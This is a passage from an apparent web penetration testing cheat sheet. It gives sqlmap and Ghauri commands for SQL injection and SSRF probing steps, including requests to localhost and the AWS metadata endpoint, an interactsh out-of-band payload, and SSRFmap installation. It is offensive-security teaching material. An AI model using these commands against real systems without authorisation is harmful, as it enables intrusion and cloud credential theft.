         # Advanced Usage: Crawl a site and test all forms
        sqlmap -u "https://example.com" --forms --batch --crawl=3

        # Test from a file of Burp logs
        sqlmap -r request.txt -p id --risk=3 --level=5
        ```
    *   **Ghauri:** A faster, time-based blind SQLi detection tool.
        ```bash
        # Installation
        pip3 install ghauri

        # Usage
        ghauri -u "http://example.com/product.php?id=1"
        ```

### 3.3 Server-Side Request Forgery (SSRF)
*   **Testing:**
    *   Look for parameters that take a URL: `?url=`, `?path=`, `?dest=`
    *   Try to access internal services: `http://127.0.0.1`, `http://localhost`, `http://169.254.169.254/latest/meta-data/` (for AWS).
    *   **Automated SSRF Detection:**
        *   **interactsh-client:** Use ProjectDiscovery's interaction server to detect out-of-band requests.
            ```bash
            # Installation
            go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest

            # 1. Start the client
            interactsh-client

            # 2. Use the generated URL (e.g., xxx.oast.fun) in your SSRF payloads
            # Ex: https://example.com/?url=http://xxx.oast.fun
            ```
        *   **SSRFmap:** A dedicated SSRF exploitation tool.
            ```bash
            # Installation
            git clone https://github.com/swisskyrepo/SSRFmap
            pip3 install -r SSRFmap/requirements.txt
